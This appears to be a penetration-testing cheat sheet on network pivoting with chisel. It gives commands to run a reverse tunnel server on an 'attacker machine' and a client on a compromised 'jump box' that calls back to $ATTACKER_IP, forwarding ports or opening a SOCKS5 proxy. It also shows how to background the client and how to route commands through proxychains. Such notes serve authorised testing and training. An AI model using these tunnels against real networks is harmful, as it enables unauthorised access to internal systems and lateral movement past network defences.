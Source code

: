 Using CHISEL:
---

single port on attacker machine

```bash
chisel server --port 8000 --reverse
```

from jump box

```bash
./chisel client $ATTACKER_IP:8000 R:$PORT:$DEST_IP:$PORT
```

 Opening socks5 server on LOCAL machine on port 1080

```bash
chisel server --port 8001 --socks5 --reverse
```

on jump box

```bash
./chisel client --max-retry-count 1 $ATTACKER_IP:8001 R:socks
```

or as a background process to free up the shell

```bash
./chisel client --max-retry-count 1 $ATTACKER_IP:8001 R:socks > /dev/null 2>&1 &
```

Then edit proxychains config:
  
```config
socks5 127.0.0.1 1080
```

Execute commands with

```bash
proxychains -q
```

in front of them